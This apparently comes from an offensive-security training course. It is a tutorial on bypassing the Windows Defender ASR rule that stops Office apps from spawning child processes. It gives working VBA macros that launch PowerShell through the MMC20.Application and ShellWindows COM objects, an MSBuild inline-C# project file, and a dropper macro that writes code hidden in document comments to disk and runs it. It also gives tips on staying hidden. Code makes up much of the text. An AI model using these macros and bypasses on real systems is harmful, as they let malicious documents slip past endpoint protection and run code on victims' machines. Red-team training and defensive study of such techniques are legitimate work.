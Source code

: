_"This rule blocks Office apps from creating child processes. This includes Word, Excel, PowerPoint, OneNote, and Access.**"**_

In the [Red Team Ops](https://training.zeropointsecurity.co.uk/courses/2) course, students create macro-enabled documents that spawn and run a PowerShell payload.  The VBA looks something like this:

```vb
Sub Exec()
    Dim wsh As Object
    Set wsh = CreateObject("WScript.Shell")
    wsh.Run "powershell"
    Set wsh = Nothing
End Sub
```

  

If we try and run this on WKSTN-2 which has this ASR rule enabled, we're blocked with a Windows Security alert.

  

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/asr/block_child_processes.png)

  

## COM Bypass

One method to get around this is by using COM.  It's possible to instantiate COM objects directly from VBA, so we can look at leveraging those that we know result in code execution.

Not every COM object will do though - the **LocalServer32** key must be set so that the process will have a parent that is **not** the Office application.  For instance, the **MMC20.Application** object will use mmc.exe as the parent, and both the **ShellWindows** and **ShellBrowserWindow** ShellExecute methods will use explorer.exe as the parent.

Here's an example using MMC20.Application:

```vb
Sub Exec()
    Dim mmc As Object
    Set mmc = CreateObject("MMC20.Application")
    mmc.Document.ActiveView.ExecuteShellCommand "powershell", "", "", "7"
    Set mmc = Nothing
End Sub
```

  

mmc.exe will close straight away, thus leaving PowerShell spawned but without a parent.

  

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/asr/powershell_mmc_child.png)

  
> Different versions of Windows seem to handle spawning MMC20.Application differently.  During my research I found that Windows 10 (tested using 21H1) will spawn mmc.exe as a child of the calling app (in this case Word/Excel/etc).  But on Windows Server 2019 (1809), mmc.exe spawns as a child of svchost.exe.

So the above VBA will bypass this ASR rule on something like a Terminal Services machine or a server delivering Office via Citrix, but not on a "standard" end-user Windows 10 machine.

And here's another example using ShellWindows:

```vb
Sub Exec()
    Dim com As Object
    Set com = GetObject("new:9BA05972-F6A8-11CF-A442-00A0C90A8F39")
    com.Item.Document.Application.ShellExecute "powershell", "", "", Null, 0
    Set com = Nothing
End Sub
```

  

This will not produce a visible PowerShell window, but it will be running as a child of explorer.exe.  This is probably the most OPSEC way to spawn PowerShell (as far as OPSEC and PowerShell goes).

  

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/asr/powershell_explorer_child.png)

  

## LOLBAS

It also turns out that not all processes are blocked when this rule is enabled.  For instance, `WScript.Shell` can be used to start Notepad.

  

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/asr/wscript_shell_notepad.png)

  

This suggests that the ASR rule is actually based on some sort of blacklist, so there may be scope to use command-line based execution.  An obvious place to look for these is the [LOLBAS project](https://lolbas-project.github.io/).  It only took me a few minutes to discover that **msbuild.exe** is not blocked, and there are probably loads more if you look deeper.

MSBuild can execute inline C# code from a `.xml` or `.csproj` file.  The MSBuild XML schema is documented [here](https://docs.microsoft.com/en-us/visualstudio/msbuild/msbuild-project-file-schema-reference).  Take the following example:

<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <Target Name="MSBuild">
    <ASRSucks />
  </Target>
  <UsingTask
    TaskName="ASRSucks"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
    <Task>
      <Code Type="Class" Language="cs">
      <![CDATA[
        using System;
        using Microsoft.Build.Framework;
        using Microsoft.Build.Utilities;
        
        public class ASRSucks : Task, ITask
        {         
          public override bool Execute()
          {
              Console.WriteLine("Hello from C#!");
              return true;
          } 
        }     
      ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>

  

This can be executed like so:

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe test.xml
```

  

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/asr/msbuild.png)

  

The only requirement is that we drop this code to disk.  One strategy could be to save the code somewhere in the document (such as the comments), fetch it with the Macro, write to disk and execute.

  

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/asr/word_comments.png)

  

```
Sub Exec()
    Dim comment As String
    Dim fSo As Object
    Dim dropper As Object
    Dim wsh As Object
    Dim temp As String
    Dim command As String
    
    temp = LCase(Environ("TEMP"))
    
    Set fSo = CreateObject("Scripting.FileSystemObject")
    Set dropper = fSo.CreateTextFile(temp & "\code.xml", True)
    
    comment = ActiveDocument.BuiltInDocumentProperties("Comments").Value
    
    dropper.WriteLine comment
    dropper.Close
    
    Set wsh = CreateObject("WScript.Shell")
    
    command = "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe " & temp & "\code.xml"
    
    wsh.Run command
    
    Set fSo = Nothing
    Set dropper = Nothing
    Set wsh = Nothing
End Sub
```

> Remember that this drops the code to disk, so ensure you remove it afterwards.